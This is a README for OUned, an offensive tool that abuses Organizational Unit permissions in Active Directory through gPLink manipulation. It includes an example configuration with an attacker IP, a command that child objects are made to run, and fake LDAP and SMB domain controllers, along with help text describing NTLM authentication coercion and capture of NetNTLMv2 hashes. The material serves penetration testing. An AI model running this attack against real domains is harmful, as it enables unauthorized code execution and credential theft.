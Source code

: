 # OUned

The OUned project, an exploitation tool automating Organizational Units ACLs abuse through gPLink manipulation.

# Configuration file

OUned arguments are provided through a configuration file - an example file is provided in the repository, `config.example.ini`.

Each entry is described by a comment, but for detailed configuration instruction, please refer to the article mentioned in the introduction above.
```ini
[GENERAL]
# The target domain name
domain=corp.com

# The target Organizational Unit name
ou=ACCOUNTING

# The username and password of the user having write permissions on the gPLink attribute of the target OU
username=naugustine
password=Password1

# The IP address of the attacker machine on the internal network
attacker_ip=192.168.123.16

# The command that should be executed by child objects
command=whoami > C:\Temp\accounting.txt

# The kind of objects targeted ("computer" or "user")
target_type=user


[LDAP]
# The IP address of the dummy domain controller that will act as an LDAP server
ldap_ip=192.168.125.245

# Optional (used for sanity checks) - the hostname of the dummy domain controller
ldap_hostname=WIN-TTEBC5VH747

# The username and password of a domain administrator on the dummy domain controller
ldap_username=ldapadm
ldap_password=Password1!

# The ID of the GPO (can be empty, only needs to exist) on the dummy domain controller
gpo_id=7B7D6B23-26F8-4E4B-AF23-F9B9005167F6

# The machine account name and password on the target domain that will be used to fake the LDAP server delivering the GPC
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
ldap_machine_name=OUNED$
ldap_machine_password=some_very_long_random_password_with_percent_signs_escaped

[SMB]
# The SMB mode can be embedded or forwarded depending on the kind of object targeted
smb_mode=forwarded

# The name of the SMB share. Can be anything for embedded mode, should match an existing share on SMB dummy domain controller for forwarded mode
share_name=synacktiv

# The IP address of the dummy domain controller that will act as an SMB server
smb_ip=192.168.126.206

# The username and password of a user having write access to the share on the SMB dummy domain controller
smb_username=smbadm
smb_password=Password1!

# The machine account name and password on the target domain that will be used to fake the SMB server delivering the GPT
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
smb_machine_name=OUNED2$
smb_machine_password=some_very_long_random_password_with_percent_signs_escaped
```

# OUned usage

The only mandatory argument when running OUned is the `--config` flag indicating the path to the configuration file.

The `--just-coerce` and `coerce-to` flags are used for SMB authentication coercion mode, in which OUned will force SMB authentication from
OU child objects to the specified destination - for more details, see the article linked in the introduction.

Regarding the `--just-clean` flag, see the next section.

```
podman build -t ouned .

podman run -it --name ouned ouned

python3 ./OUned.py --help

 Usage: python3 ./OUned.py [OPTIONS]

╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --config               TEXT  The configuration file for OUned [default: None] [required]                                                                                      │
│    --skip-checks                Do not perform the various checks related to the exploitation setup                                                                              │
│    --just-coerce                Only coerce SMB NTLM authentication of OU child objects to the destination specified in the --coerce-to flag, or, if no destination is           │
│                                 specified, to a local SMB server that will print their NetNTLMv2 hashes                                                                          │
│    --coerce-to            TEXT  Coerce child objects SMB NTLM authentication to a specific destination - this argument should be an IP address [default: None]                   │
│    --just-clean                 This flag indicates that OUned should only perform cleaning actions from specified cleaning-file                                                 │
│    --cleaning-file        TEXT  The path to the cleaning file in case the --just-clean flag is used [default: None]                                                              │
│    --verbose                    Enable verbose output                                                                                                                            │
│    --help                       Show this message and exit.                                                                                                                      │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

# About cleaning

By default and as explained in the article, OUned will perform cleaning actions and among others restore the original gPLink value in the target domain. In case the exploit could not exit properly, OUned creates a cleaning file each time the exploit is executed, that can be used later on to restore legitimate values by using the `--just-clean` flag; for instance:

```bash
$ python3 OUned.py --config config.example.ini --just-clean --cleaning-file cleaning/FINANCE/2024_04_14-05_02_46.txt
```
